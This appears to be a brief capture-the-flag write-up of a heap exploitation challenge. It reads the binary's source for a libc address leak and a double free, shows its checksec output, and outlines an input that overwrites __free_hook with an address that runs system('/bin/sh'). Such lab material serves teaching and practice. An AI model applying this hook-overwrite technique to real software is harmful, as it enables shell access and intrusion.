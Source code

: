 **Read source code**
- `printf("stdout: %p\n", stdout);`: calculate `libc_base`
- `scanf("%ld", &size);`: input size of malloc
- `*(long *)*ptr = *(ptr+1);`: ptr point to ptr + 1
- double `free(ptr);` : cause error => bypass free
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
RUNPATH:    b'.'
Stripped:   No
```
- So the idea is that put addr of `system("/bin/sh")` into Freehook
---  
***EPLOIT***
```
Size: a number
Data: free_hook(addr) + 0x0000000000400a11 (addr before system("/bin/sh"))
```

